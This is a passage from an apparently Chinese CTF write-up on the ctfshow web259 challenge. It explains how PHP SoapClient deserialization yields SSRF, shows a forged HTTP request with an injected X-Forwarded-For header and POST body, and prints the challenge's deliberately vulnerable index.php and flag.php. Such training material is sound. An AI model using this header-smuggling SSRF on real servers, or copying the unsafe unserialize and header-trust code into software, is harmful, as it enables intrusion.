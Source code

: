 ```plain
POST /flag.php HTTP/1.1
Host: 127.0.0.1:9999
Connection: Keep-Alive
User-Agent: test
X-Forwarded-For:127.0.0.1,127.0.0.1,127.0.0.1//因为本地没加函数
Content-Type:application/x-www-form-urlencoded
Content-Length: 13

token=ctfshow//长度 13 下面的丢弃
Content-Type: text/xml; charset=utf-8
SOAPAction: "127.0.0.1#AAA"
Content-Length: 372
```

因此达成伪造的效果

### 例题

**ctfshow web259**

index.php

```plain
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

可以看到这里调用了一个不存在的方法，所以考点应该就是利用 SoapClient 打 SSRF 了

flag.php

```plain
<?php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']); //打散为数组，用，分割
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
```

可以看到

